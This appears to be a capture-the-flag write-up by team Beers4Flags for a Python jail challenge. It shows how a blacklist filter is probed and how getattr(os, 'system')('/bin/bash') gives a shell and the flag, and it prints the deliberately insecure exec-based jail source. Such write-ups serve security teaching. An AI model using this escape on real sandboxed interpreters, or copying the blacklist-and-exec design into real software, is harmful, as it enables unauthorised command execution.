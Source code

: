 **Secure Pyshell - 100pts**

A friend of mine is die hard fan of python . He created a python interpreter of his own And claims to be very secure , prove him he is wrong. He loves Trump, btw. 
 nc 139.59.61.220 22345 


Rapidly we found that's we have a python3 interpreter : 

```BASH
 nc 139.59.61.220 22345 

Welcome to Secure Python Interpreter 
================================================

Rules:
    -Do not import anything
    -No peeking at files!
    -No sharing of flags :)


>>> print "1"
Error: print "1"
>>> print("1")
1
```

We can't use "." or simple quote ' and some basic fonctions are blacklisted :

```BASH
>>> quit
Do you think my code is so insecure ?
You can never get out of my jail :)
>>> eval
Do you think my code is so insecure ?
You can never get out of my jail :)
>>> print(__builtins__)
<module 'builtins' (built-in)>
>>> print(__builtins__.__class__)       
Do you think my code is so insecure ?
You can never get out of my jail :)
```

We found a interesting Jail fonction :

```BASH
>>> print(dir())
['Jail', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'a', 'cmd', 'execute', 'intro', 'os', 'sys']
```

But nothing to do with it...

```BASH
>>> print(Jail)
<class '__main__.Jail'>
>>> print(Jail())
<__main__.Jail object at 0x7ffff6280518>
>>> print(Jail(0))
<__main__.Jail object at 0x7ffff6280358>
>>> print(Jail(1))
<__main__.Jail object at 0x7ffff6280320>
```

Other interessant things : 'os' and 'sys' are imported !
We want to escape the jail so how can we exec a shell like /bin/bash ?
But we don't have the right to use "."
The trick here is to use the getattr function !
"getattr(object, name[, default])
Return the value of the named attribute of object.  name must be a string. If the string is the name of one of the object’s attributes, the result is the value of that attribute.  For example, getattr(x, 'foobar') is equivalent to x.foobar.  If the named attribute does not exist, default is returned if provided, otherwise AttributeError is raised."

```BASH
print(getattr(os, "system")("/bin/bash"))
id
uid=1003(pwn2) gid=1003(pwn2) groups=1003(pwn2)
cd /home/pwn2
ls -lsa
4 dr-xr-x---  2 root    pwn2    4096 Feb 25 14:20 .
4 drwxr-xr-x 12 root    root    4096 Feb 27 06:32 ..
4 ----r-----  1 root    pwn2      48 Feb 25 07:14 flag.txt
4 -rwxr-xr-x  1 skamath skamath 1386 Feb 25 14:20 pwn2

cat flag.txt
xiomara{$h3ll$_d0nT_l!3_wh3n_beat3n_uP_!n_j@!l}
```

For the fun, the script from this chall ;-) :

```BASH
cat pwn2
#!/usr/bin/python3
import sys, cmd, os

del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']

intro = """
Welcome to Secure Python Interpreter 
================================================

Rules:
    -Do not import anything
    -No peeking at files!
    -No sharing of flags :)

"""


def execute(command):
       exec(command, globals())
 
class Jail(cmd.Cmd):
 
    prompt     = '>>> '
    filtered    = '\'|.|input|if|else|eval|exit|import|quit|exec|code|const|vars|str|chr|ord|local|global|join|format|replace|translate|try|except|with|content|frame|back'.split('|')
 
    def do_EOF(self, line):
        sys.exit()
 
    def emptyline(self):
        return cmd.Cmd.emptyline(self)
 
    def default(self, line):
        sys.stdout.write('\x00')
 
    def postcmd(self, stop, line):
        if any(f in line for f in self.filtered):
            print("Do you think my code is so insecure ?")
            print("You can never get out of my jail :)")
        else:
           try:
                execute(line)
           except NameError:
                print("NameError: name '%s' is not defined" % line)
           except Exception:
                print("Error: %s" % line)
        return cmd.Cmd.postcmd(self, stop, line)
 
if __name__ == "__main__":
    try:
        Jail().cmdloop(intro)
    except KeyboardInterrupt:
        print("\rBye bye !")
```

By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
